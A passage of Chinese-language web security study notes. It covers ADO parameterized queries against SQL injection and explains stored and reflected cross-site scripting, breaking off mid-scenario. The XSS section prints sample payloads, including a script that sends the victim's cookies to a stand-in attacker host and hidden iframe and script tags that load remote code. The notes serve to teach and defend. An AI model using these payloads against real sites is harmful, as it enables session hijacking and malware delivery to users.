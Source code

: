   - ADO命令对象

    - 原理：ADO的`Command`对象支持参数化查询，通过`Parameters`集合定义参数，SQL语句中用`?`或命名参数（如`@username`）作为占位符，最终由ADO将参数安全传递给数据库。

    - 示例（VBScript/ASP中使用ADO）： 

      ```vb
      ' 1. 创建Command对象并关联连接
      Set cmd = Server.CreateObject("ADODB.Command")
      cmd.ActiveConnection = conn ' 已打开的Connection对象
      
      ' 2. 定义带参数的SQL模板（用?作为占位符）
      cmd.CommandText = "SELECT * FROM users WHERE username = ? AND password = ?"
      cmd.CommandType = adCmdText ' 声明为SQL文本
      
      ' 3. 添加参数（指定类型、长度、值，与占位符顺序对应）
      cmd.Parameters.Append cmd.CreateParameter("param1", adVarChar, adParamInput, 50, username)
      cmd.Parameters.Append cmd.CreateParameter("param2", adVarChar, adParamInput, 50, password)
      
      ' 4. 执行查询，获取结果集
      Set rs = cmd.Execute
      ```

- 加强 SQL 数据库服务器的配置与连接

#### XSS 跨站脚本攻击

##### XSS 攻击技术原理

允许用户交互的 Web 应用程序中，用户提交内容中可以包含 HTML、JavaScript 及其他脚本代码，一旦 Web应用程序没有对这些输入的合法性进行有效检查与过滤，就很有可能让这些恶意代码逻辑包含在服务器动态产生或更新的网页中。

```html
<script>alert(/xss/)</script>

<!-->窃取 Cookie</!-->
<script>document.location='http://steal_cookie_exapmle.com/getcookie.php?cookie='+document.cookie;</script>

<!-->植入木马</!-->
<iframe src="http://targer_link" height=0 width=0></iframe>
<script src="http://targer_link"></script>
```

##### XSS 攻击类型

- 持久型 XSS 漏洞（存储型 XSS 漏洞）
  - 原理：若用户输入持久性地保存在 Web 服务器端，并在正常页面中持续性地显示，从而影响所有访问这些页面的其他用户，那么系统很可能存在持久型 XSS 漏洞。
  - 场景：留言板、BBS、博客等

- 非持久型 XSS 漏洞（反射型 XSS 漏洞）
  - 原理：若 Web 浏览器通过 HTTP 请求参数或 HTML 提交表单传递数据，服务器端脚本未对这些数据进行恰当的安全验证与过滤，就直接使用并生成返回给用户的结果页面，那么系统很可能存在非持久型 XSS 漏洞。
  
  - 场景：站点搜索引擎
    1. 攻击者构造一个包含恶意脚本的 `bank.com` 登录请求链接，并通过 Email/HTTP 等方式将该链接发送给其他用户
  